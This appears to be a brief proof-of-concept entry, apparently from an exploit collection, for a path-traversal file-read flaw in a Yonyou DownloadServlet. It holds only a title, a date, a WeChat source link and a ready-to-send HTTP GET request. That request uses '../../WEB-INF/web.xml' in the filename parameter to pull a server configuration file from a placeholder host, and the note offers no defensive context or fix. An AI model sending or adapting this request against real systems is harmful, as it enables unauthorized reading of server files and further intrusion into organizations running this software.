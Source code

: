 # yonyou_DownloadServlet_readfile
2024/1/29 @2
from: https://mp.weixin.qq.com/s/rq800x9tImsVEdVLfFn-pQ
```
GET /servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip

```
